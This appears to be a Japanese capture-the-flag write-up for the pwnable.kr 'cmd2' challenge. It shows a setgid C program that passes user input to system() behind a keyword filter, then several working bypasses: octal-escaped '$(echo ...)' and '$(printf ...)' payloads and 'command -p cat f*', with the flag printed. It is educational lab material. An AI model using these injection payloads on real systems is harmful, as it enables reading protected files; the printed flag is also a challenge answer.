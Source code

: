 # 内容
まずはログインしてみる。
* パスワードはcmd1のフラグ。毎度同じのguestと入力しないように。

```bash
sh cmd2@pwnable.kr -p2222
cmd2@pwnable.kr's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Tue Jul 30 17:08:28 2019 from 49.135.83.29
cmd2@prowl:~$ ls
cmd2  cmd2.c  flag
cmd2@prowl:~$ ls -la
total 40
drwxr-x---   5 root cmd2     4096 Oct 23  2016 .
drwxr-xr-x 114 root root     4096 May 19 15:59 ..
d---------   2 root root     4096 Jul 14  2015 .bash_history
-r-xr-sr-x   1 root cmd2_pwn 8794 Dec 21  2015 cmd2
-rw-r--r--   1 root root      586 Dec 21  2015 cmd2.c
-r--r-----   1 root cmd2_pwn   30 Jul 14  2015 flag
dr-xr-xr-x   2 root root     4096 Jul 22  2015 .irssi
drwxr-xr-x   2 root root     4096 Oct 23  2016 .pwntools-cache
cmd2@prowl:~$ ./cmd2
Segmentation fault (core dumped)
cmd2@prowl:~$ cat ./cmd2
cmd2    cmd2.c
cmd2@prowl:~$ cat ./cmd2.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}

cmd2@prowl:~$
```

最初のdelete_env()でなにをしているかはわからないが、前回のcmd1よりfilterが強化されているのが分かる。
まず、exportや/は使えなくなっている時点で、前回のようにはいかない。
そこで、**/bin/cat flag**を16進数で出力することを考える。

# 手順
文字列を16進数に変換するときはxxd, echo, printf等が代表的で、今回はechoを使用する。

## echoで16進数に変更する方法
echoで16進数に変換するのはshとbashで方法が少し異なる。
* echoの特殊文字は8進数です！！！なので、１６進数から変換するのが良いと思います。
1. bash
	*  オプションeが必要。
  * ２バイトと書かないといけない？

```bash
cmd2@prowl:~$ echo -e "\0057"
/
cmd2@prowl:~$ echo -e "\57"
\57
cmd2@prowl:~$ echo -e \0057
0057
```

2. sh
	* オプションは必要なし、ていうか無い。
  * １バイトだけで良い
```bash
echo -e
-e
$ echo "\57"
/
$ echo "\0057"
/
``` 

以上を用いて、解答していく。

# 解答
16進数から8進数に変換するコードを書いた。

```python
def main():
  s = "/bin/cat flag"
  ans = "\""
  for i in s:
    ans += "\\" + str( oct( ord(i) ) )
  ans += "\""
  print(ans.replace("0o", ""))
if __name__ == '__main__':
  main()
```

```bash
$ python3 sol.py
"\57\142\151\156\57\143\141\164\40\146\154\141\147"
```

後は実行するだけ。

```bash
cmd2@prowl:~$ ./cmd2 '$(echo "\57\142\151\156\57\143\141\164\40\146\154\141\147")'
$(echo "\57\142\151\156\57\143\141\164\40\146\154\141\147")
FuN_w1th_5h3ll_v4riabl3s_haha
```

因みに、printfも特殊文字は８進数で書けるので、同じように実行すれば、フラグをゲットできる。

```bash
cmd2@prowl:~$ ./cmd2 '$(printf "\57\142\151\156\57\143\141\164\40\146\154\141\147")'
$(printf "\57\142\151\156\57\143\141\164\40\146\154\141\147")
FuN_w1th_5h3ll_v4riabl3s_haha
```


フラグゲット。

# 別解
system関数はmanで調べると、shで実行されていることが分かる。

```text
CRIPTION
       The system() library function uses fork(2) to create a child process that executes the shell command specified in command using execl(3) as follows:

           execl("/bin/sh", "sh", "-c", command, (char *) 0);

       system() returns after the command has been completed.

       During  execution  of  the command, SIGCHLD will be blocked, and SIGINT and SIGQUIT will be ignored, in the process that calls system() (these signals will be handled according to their defaults inside the child process that
       executes command).

       If command is NULL, then system() returns a status indicating whether a shell is available on the system
```


さらに、shのmanを見ると組み込みコマンドとしてcommandという命令があることがわかる。
このコマンドは"sh -c"と同じように動くらしい(間違えてるかも・・・)。

```text
command [-p] [-v] [-V] command [arg ...]
            Execute the specified command but ignore shell functions when searching for it.  (This is useful when you have a shell function with the same name as a builtin command.)

            -p     search for command using a PATH that guarantees to find all the standard utilities.

            -V     Do not execute the command but search for the command and print the resolution of the command search.  This is the same as the type builtin.

            -v     Do not execute the command but search for the command and print the absolute pathname of utilities, the name for builtins or the expansion of aliases.

```



つまり、実は16進数に変更しなくてもこのcommandコマンドを使用すれば、filter関数を回避できる。

```bash
cmd2@prowl:~$ ./cmd2 '$(command -p cat f*)'
$(command -p cat f*)
sh: 1: FuN_w1th_5h3ll_v4riabl3s_haha: not found
```

```bash
cmd2@prowl:~$ ./cmd2 "command -p cat \"f\"\"l\"\"a\"\"g\" "
command -p cat "f""l""a""g"
FuN_w1th_5h3ll_v4riabl3s_haha

```

```bash
cmd2@prowl:~$ ./cmd2 "command -p cat f*"
command -p cat f*
FuN_w1th_5h3ll_v4riabl3s_haha
```

もっといろいろ解法はある気がするが、疲れたので、やめる。
